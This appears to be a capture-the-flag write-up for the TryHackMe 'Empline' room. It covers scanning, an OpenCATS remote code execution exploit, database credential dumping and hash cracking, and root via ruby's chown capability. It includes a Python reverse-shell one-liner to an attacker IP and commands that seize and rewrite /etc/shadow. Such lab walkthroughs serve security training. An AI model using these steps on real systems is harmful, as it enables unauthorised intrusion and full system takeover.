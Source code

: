 ```yaml
---
title: "TryHackMe - Empline"
author: Nasrallah
description: ""
date: 2023-01-13 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, ruby, rce, capability, openssl]
img_path: /assets/img/tryhackme/empline
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Empline](https://tryhackme.com/room/empline) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.216.146                                                                                                                            
Host is up (0.11s latency).                                                                                                                                   
Not shown: 997 closed tcp ports (reset)                                                                                                                       
PORT     STATE SERVICE VERSION                                                                                                                                
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                           
| ssh-hostkey:                                                                                                                                                
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)                                                                                                
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)                                                                                               
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)                                                                                             
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                         
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 85
|   Capabilities flags: 63487
|   Some Capabilities: LongPassword, IgnoreSigpipes, SupportsCompression, ConnectWithDatabase, DontAllowDatabaseTableColumn, LongColumnFlag, Support41Auth, In
teractiveClient, Speaks41ProtocolOld, FoundRows, SupportsTransactions, ODBCClient, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, S
upportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: md1c$#$*E^*TGIv8RskA
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found 3 open ports:

 - 22/tcp    ssh     OpenSSH 7.6p1
 
 - 80/tcp    http    Apache httpd 2.4.29

 - 3306/tcp  mysql   MySQL 5.5.5-10.1.48-MariaDB


We don't have any credentials for ssh and mysql so let's enumerate the http web server.

### Web

Navigate to the web page.

![](1.png)

Nothing interesting in this page, but one of the tabs `employment` goes to `job.empline.thm`. Let's add the two domains to the `/ets/hosts` file.

![](2.png)

Now let's go to http://job.empline.thm/

![](3.png)

We found a login page for `opencats` version 0.9.4 . 


## **Foothold**

I searched on google for available exploit and found this [remote code execution exploit](https://github.com/Nickguitar/RevCAT).

Let's download the exploit and run it.

![](4.png)

Great! We got command execution, now let's get a reverse shell.

First we setup a netcat listener with `nc -lvnp 9001`, then we execute the following command on the target:

```bash
export RHOST="10.11.14.124";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![](5.png)

## **Privilege Escalation**

Checking `opencats` config file i managed to find mysql credentials.

![](6.png)

Let's connect to the database server and see if we can find anything useful.

```bash
www-data@empline:/home$ mysql -u james -p                                                                                                                     
Enter password:                                                                
Welcome to the MariaDB monitor.  Commands end with ; or \g.                    
Your MariaDB connection id is 542                                              
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04                  
                                                                                                                                                              
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.                                                                                          
                                                                               
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 
                                                                               
MariaDB [(none)]> show databases;                                              
+--------------------+                                                         
| Database           |                                                         
+--------------------+                                                                                                                                        
| information_schema |                                                         
| opencats           |                                                         
+--------------------+                                                         
2 rows in set (0.00 sec)                                                       
                                                                               
MariaDB [(none)]> use opencats;      
Reading table information for completion of table and column names                                                                                            
You can turn off this feature to get a quicker startup with -A                                                                                                
                                                                                                                                                              
Database changed                                                                                                                                              
MariaDB [opencats]> show tables;                                                                                                                              
+--------------------------------------+                                                                                                                      
| Tables_in_opencats                   |                                                                                                                      
+--------------------------------------+
| user                                 |

MariaDB [opencats]> show columns from user;
+---------------------------+--------------+------+-----+---------+----------------+
| Field                     | Type         | Null | Key | Default | Extra          |
+---------------------------+--------------+------+-----+---------+----------------+
| user_id                   | int(11)      | NO   | PRI | NULL    | auto_increment |
| site_id                   | int(11)      | NO   | MUL | 0       |                |
| user_name                 | varchar(64)  | NO   |     |         |                |
| email                     | varchar(128) | YES  |     | NULL    |                |
| password                  | varchar(128) | NO   |     |         |                |

MariaDB [opencats]> select user_id,user_name,password from user;
+---------+----------------+----------------------------------+
| user_id | user_name      | password                         |
+---------+----------------+----------------------------------+
|       1 | admin          | b67b5ecc5d8902ba59c65596e4c053ec |
|    1250 | cats@rootadmin | cantlogin                        |
|    1251 | george         | 86d0dfda99dbebc424eb4407947356ac |
|    1252 | james          | e53fbdb31890ff3bc129db0e27c473c9 |
+---------+----------------+----------------------------------+
4 rows in set (0.00 sec)

```

We found george password hash that looks like an md5 hash, so we can crack it using [crackstation.net](https://crackstation.net/)

![](7.png)

We got the password, now let's ssh into the machine.

![](8.png)

Next i upload a copy of linpeas and run which gave me the following results:

![](9.png)

We found that `ruby` hash the capability `cap_chown+ep`, which means we can change the ownership of any file.

To get root, we're gonna change the ownership of `/etc/shadow` to george, then change the root's password hash with a new hash that we're gonna create.

```bash
george@empline:~$ ls -l /etc/shadow                                                                                                                           
-rw-r----- 1 root shadow 1081 Jul 20  2021 /etc/shadow
george@empline:~$ /usr/local/bin/ruby -e "require 'fileutils'" -e "FileUtils.chown('george','george','/etc/shadow')"                                          
george@empline:~$ ls -l /etc/shadow                                                                                                                           
-rw-r----- 1 george george 1081 Jul 20  2021 /etc/shadow
george@empline:~$ openssl passwd -6 -salt abc password                                                                                                        
$6$abc$rvqzMBuMVukmply9mZJpW0wJMdDfgUKLDrSNxf9l66h/ytQiKNAdqHSj5YPJpxWJpVjRXibQXRddCl9xYHQnd0
george@empline:~$ vim /etc/shadow                                                                                                                             
george@empline:~$                                                                                                                                             
george@empline:~$ cat /etc/shadow                                                                                                                             
root:$6$abc$rvqzMBuMVukmply9mZJpW0wJMdDfgUKLDrSNxf9l66h/ytQiKNAdqHSj5YPJpxWJpVjRXibQXRddCl9xYHQnd0:18828:0:99999:7::: 
<REDACTED>
```

Now we can switch to root with the password `password`.

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

